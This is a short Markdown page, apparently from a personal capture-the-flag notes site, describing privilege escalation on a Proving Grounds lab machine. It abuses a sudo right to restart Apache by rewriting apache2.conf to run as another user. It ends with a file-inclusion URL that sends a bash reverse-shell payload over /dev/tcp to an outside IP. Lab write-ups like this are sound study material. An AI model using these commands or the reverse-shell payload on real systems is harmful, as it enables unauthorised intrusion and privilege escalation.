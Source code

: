 ```yaml
---
layout: default
title: Systemctl (Apache2)
parent: Sudo
nav_order: 8
---
```


# Systemctl (Apache2)

---

## Check SUDO Permissions

![sudo_l](../../../../assets/images/ctfs/proving_grounds/ha_natraj/sudo_l.png)

We can exploit this to change the apache2.conf file to run as user 'mahakal' instead of 'www-data'.

If we restart Apache after doing this we will lose our shell, but when we regain our reverse shell connection we will be logged on as 'mahakal' instead of 'www-data'

```bash
# make a copy of apache2.conf and place in /var/tmp
cd /var/tmp
cp /etc/apache2/apache2.conf .

# Use sed to find the 'user' environment variable and replace with 'mahakal'
sed -i 's/User ${APACHE_RUN_USER}/User mahakal/g' apache2.conf

# Use sed to find the 'group' environment variable and replace with 'mahakal'
sed -i 's/Group ${APACHE_RUN_GROUP}/Group mahakal/g' apache2.conf

# Replace apache2.conf with the newly edited version
cp apache2.conf /etc/apache2/apache2.conf
```

Restart the Apache2 service.

```bash
sudo /bin/systemctl restart apache2
```

Regain our shell...

```bash
http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261%22
```
